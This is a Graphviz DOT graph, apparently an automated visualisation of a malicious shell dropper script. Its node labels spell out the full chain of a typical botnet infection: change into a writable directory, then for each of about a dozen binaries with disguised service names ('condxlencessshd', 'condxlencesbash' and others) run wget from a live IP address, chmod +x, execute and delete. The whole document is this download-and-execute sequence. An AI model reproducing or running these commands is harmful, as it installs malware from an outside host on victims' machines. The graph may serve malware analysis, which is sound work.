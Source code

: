 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://109.236.85.11/condxlencesntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x condxlencesntpd "];
12 -> 14 [label=";,"];
14 [label="./condxlencesntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf condxlencesntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://109.236.85.11/condxlencessshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x condxlencessshd "];
30 -> 32 [label=";,"];
32 [label="./condxlencessshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf condxlencessshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://109.236.85.11/condxlencesopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x condxlencesopenssh "];
48 -> 50 [label=";,"];
50 [label="./condxlencesopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf condxlencesopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://109.236.85.11/condxlencesbash "];
64 -> 66 [label=";,"];
66 [label="chmod +x condxlencesbash "];
66 -> 68 [label=";,"];
68 [label="./condxlencesbash "];
68 -> 70 [label=";,"];
70 [label="rm -rf condxlencesbash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://109.236.85.11/condxlencestftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x condxlencestftp "];
84 -> 86 [label=";,"];
86 [label="./condxlencestftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf condxlencestftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://109.236.85.11/condxlenceswget "];
100 -> 102 [label=";,"];
102 [label="chmod +x condxlenceswget "];
102 -> 104 [label=";,"];
104 [label="./condxlenceswget "];
104 -> 106 [label=";,"];
106 [label="rm -rf condxlenceswget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://109.236.85.11/condxlencescron "];
118 -> 120 [label=";,"];
120 [label="chmod +x condxlencescron "];
120 -> 122 [label=";,"];
122 [label="./condxlencescron "];
122 -> 124 [label=";,"];
124 [label="rm -rf condxlencescron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://109.236.85.11/condxlencesftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x condxlencesftp "];
138 -> 140 [label=";,"];
140 [label="./condxlencesftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf condxlencesftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://109.236.85.11/condxlencespftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x condxlencespftp "];
156 -> 158 [label=";,"];
158 [label="./condxlencespftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf condxlencespftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://109.236.85.11/condxlencessh "];
172 -> 174 [label=";,"];
174 [label="chmod +x condxlencessh "];
174 -> 176 [label=";,"];
176 [label="./condxlencessh "];
176 -> 178 [label=";,"];
178 [label="rm -rf condxlencessh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://109.236.85.11/condxlencest "];
190 -> 192 [label=";,"];
192 [label="chmod +x condxlencest "];
192 -> 194 [label=";,"];
194 [label="./condxlencest "];
194 -> 196 [label=";,"];
196 [label="rm -rf condxlencest "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://109.236.85.11/condxlencesapache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x condxlencesapache2 "];
210 -> 212 [label=";,"];
212 [label="./condxlencesapache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf condxlencesapache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://109.236.85.11/condxlencestelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x condxlencestelnetd "];
228 -> 230 [label=";,"];
230 [label="./condxlencestelnetd "];
230 -> 231 [label=";,"];
}
